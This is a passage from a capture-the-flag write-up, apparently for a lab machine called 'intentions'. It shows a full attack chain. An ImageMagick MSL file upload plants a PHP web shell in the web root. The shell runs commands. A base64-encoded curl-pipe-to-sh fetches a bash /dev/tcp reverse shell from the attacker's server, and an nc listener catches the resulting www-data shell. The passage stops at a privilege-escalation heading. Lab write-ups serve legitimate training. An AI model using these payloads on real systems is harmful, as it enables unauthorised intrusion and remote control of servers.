 ```
Content-Disposition: form-data;filename="a.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/qwe.php" />
</image>
------WebKitFormBoundaryePkpFF7tjBAqx29L
```

**Exploit**:

```console
$ curl -G --data-urlencode 'cmd=id' http://10.10.11.220/storage/qwe1.php
caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
 CAPTION 120x120 120x120+0+0 16-bit sRGB 1.340u 0:01.338
```

```console
$ cat rev.sh
bash -c "bash -i >&/dev/tcp/10.10.16.12/1234 0>&1"

$ echo 'curl http://10.10.16.12/rev.sh|sh  ' | base64
Y3VybCBodHRwOi8vMTAuMTAuMTYuMTIvcmV2LnNofHNoICAK

$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.220 - - [25/Mar/2024 02:04:33] "GET /rev.sh HTTP/1.1" 200 -

---

$ curl -G --data-urlencode 'cmd=echo Y3VybCBodHRwOi8vMTAuMTAuMTYuMTIvcmV2LnNofHNoICAK|base64 -d|sh' http://10.10.11.220/storage/qwe.php

---

$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.220] 35002
bash: cannot set terminal process group (1067): Inappropriate ioctl for device
bash: no job control in this shell
www-data@intentions:~/html/intentions/storage/app/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@intentions:~/html/intentions/storage/app/public$ uname -a
uname -a
Linux intentions 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
